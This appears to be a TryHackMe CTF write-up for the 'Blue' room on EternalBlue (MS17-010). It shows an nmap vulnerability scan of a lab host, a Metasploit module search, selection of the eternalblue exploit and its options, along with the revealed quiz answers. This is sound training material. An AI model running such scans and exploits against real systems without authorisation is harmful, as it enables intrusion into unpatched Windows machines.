 ```yaml
---
tags: [tryhackme, exploit, easy]
categories: [tryhackme, exploit, easy]
icon: chevron-right
author: Ivo Muijtjens
date: 2022-05-26
---
```

![](/static/headers/blue.png)

# Blue

Deploy & hack into a Windows machine, leveraging common misconfigurations issues. The Blue CTF is an easy box based on the EternalBlue vulnerability [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143). As preparation for this room, I recommend following the Windows Exploration Basics path to get familair with the commands:

[!ref target="blank" text="Windows Fundamentals 1" icon="../static/icons/fundamentals1.png"](https://tryhackme.com/room/windowsfundamentals1xbx)
[!ref target="blank" text="Windows Fundamentals 2" icon="../static/icons/fundamentals2.png"](https://tryhackme.com/room/windowsfundamentals2x0x)
[!ref target="blank" text="Active Directory Basics" icon="../static/icons/activedirectory.png"](https://tryhackme.com/room/activedirectorybasics)
[!ref target="blank" text="Metasploit: Introduction" icon="../static/icons/metasploit.png"](https://tryhackme.com/room/metasploitintro)
[!ref target="blank" text="Metasploit: Exploitation" icon="../static/icons/metasploit.png"](https://tryhackme.com/room/metasploitexploitation)
[!ref target="blank" text="Metasploit: Meterpreter" icon="../static/icons/metasploit.png"](https://tryhackme.com/room/meterpreter)

---

# Writeup

### Reconnaissance

**How many ports are open with a port number under 1000?**

To answer this question I used nmap to scan for open ports and vulnerabilities.

    nmap -sV -p 1-999 --script vuln 10.10.209.54

`-sV` enumerate versions

`-p 1-999` scan all ports under 1000

`--script vuln` argument to scan vulnerabilities

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-26 11:10 EDT
    Nmap scan report for 10.10.209.54
    Host is up (0.028s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT    STATE SERVICE      VERSION
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_smb-vuln-ms10-054: false
    |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
    |_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    |_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 23.25 seconds

==- Reveal Answer
3
===

**What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**

Review the nmap output for the answer to this question.

==- Reveal Answer
ms17-010
===

### Gain Access

**Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

Start Metasploit with the `msfconsole` command in your terminal. Once Metasploit Framework is initialized, we can search the vulnaribility with command: `search ms17-010`.

    Matching Modules
    ================

    #  Name                                      Disclosure Date  Rank     Check  Description
    -  ----                                      ---------------  ----     -----  -----------
    0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
    1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
    3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
    4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

In this case I'm interested in the EternalBlue exploit. Use the command `use 0` to select the exploit. You can also use the full name of the exploit with command `use exploit/windows/smb/ms17_010_eternalblue`.

==- Reveal Answer
exploit/windows/smb/ms17_010_eternalblue
===

**Show options and set the one required value. What is the name of this value? (All caps for submission)**

After selecting the exploit we can show the module options with the command `show options`. Analyze the output of this command. There is one required setting that's not predefined.

    Module options (exploit/windows/smb/ms17_010_eternalblue):

        Name           Current Setting  Required  Description
        ----           ---------------  --------  -----------
        RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
        RPORT          445              yes       The target port (TCP)
        SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Stand
                                                    ard 7 target machines.
        SMBPass                         no        (Optional) The password for the specified username
        SMBUser                         no        (Optional) The username to authenticate as
        VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard
                                                    7 target machines.
        VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                                    achines.

==- Reveal Answer
RHOSTS
===